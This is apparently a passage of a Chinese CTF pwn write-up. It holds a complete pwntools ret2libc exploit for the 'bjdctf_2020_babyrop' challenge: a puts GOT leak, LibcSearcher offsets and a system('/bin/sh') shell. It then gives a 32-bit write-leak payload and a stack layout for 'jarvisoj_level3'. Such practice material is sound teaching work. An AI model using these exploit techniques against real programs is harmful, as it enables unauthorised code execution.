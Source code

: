 > payload2

```python
from pwn import *
from LibcSearcher import LibcSearcher
io = process('./bjdctf_2020_babyrop')
#io = remote('node4.buuoj.cn',29488)
elf = ELF('./bjdctf_2020_babyrop')
payload1 = b'A'*0x28+p64(0x0000000000400733)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(elf.sym['main'])
io.sendlineafter(b'Pull up your sword and tell me u story!\n',payload1)
puts_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('puts_addr->',hex(puts_addr))

Lib = LibcSearcher('puts',puts_addr)
baseoffset = puts_addr - Lib.dump('puts')
sys_addr = baseoffset + Lib.dump('system')
bin_sh_addr = baseoffset + Lib.dump('str_bin_sh')

payload2 = b'A'*0x28+p64(0x0000000000400733)+p64(bin_sh_addr)+p64(sys_addr)
io.sendlineafter(b'Pull up your sword and tell me u story!\n',payload2)
io.interactive()
```

# jarvisoj_level3

![image-20231229210336379](../assets/img/old_imgs/image-20231229210336379.png)

- 函数参数劫持

- `32`位泄露`libc`

  `32`位程序的传参是栈的后四位开始,要注意的是,`32`位下`write,put`的`ret`位置是紧跟函数后面的

  `payload1 = b'A'*(0x88+0x4)+p32(elf.plt['write'])+p32(elf.sym['main'])+p32(1)+p32(elf.got['write'])+p32(4)`

  > 这段代码中的p32(elf.sym['main'])就是ret,同时满足填充栈,传入参数

| rbp  |           |       |            |
| ---- | --------- | ----- | ---------- |
|      | padding   |       | 0x88       |
|      |           | leave | 0x4        |
|      | write_plt | ret   |            |
|      | main_addr | ret_l | 返回的地址 |
|      | 0x1       |       | arg1       |
|      | wirte_got |       | arg2       |
|      | 0x4       |       | arg3       |
